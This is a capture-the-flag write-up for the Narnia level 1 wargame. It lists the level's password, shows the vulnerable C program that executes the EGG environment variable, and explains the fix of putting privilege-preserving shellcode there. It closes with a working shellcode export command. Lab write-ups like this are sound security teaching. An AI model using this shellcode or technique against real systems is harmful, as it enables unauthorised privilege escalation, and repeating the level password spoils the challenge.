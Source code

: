 # username / password
narnia1 / WDcYUTG5ul
# concept
* arbitrary ret() function abuse
* ret2shellcode
# method of solve
* the binary's sourcecode looks like this:
```
#include <stdio.h>

int main(){
    int (*ret)();

    if(getenv("EGG")==NULL){
        printf("Give me something to execute at the env-variable EGG\n");
        exit(1);
    }

    printf("Trying to execute EGG!\n");
    ret = getenv("EGG");
    ret();

    return 0;
}
```
* the code uses the `getenv()` function, which retrieves an environment variable from the system
* the code also run the `ret()` function, which executes instructions at a specified memory address
* since `ret` is using the value of `getenv("EGG")`, it will take in a memory address and execute the code there
* if we put shellcode in the `EGG` environment variable, the binary will execute it
* if we put in any old shellcode in there that executes `/bin/sh`, it will give us a shell as the `narnia1` user, which is not the target user
* the issue here is that binary doesn't set the UID to the owner's UID before running the shellcode
* we need to run shellcode that explicitly sets the UID
* we got the shellcode from this page
* `https://shell-storm.org/shellcode/files/shellcode-606.html`
```
export EGG=$(perl -e 'print "\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80"')
```
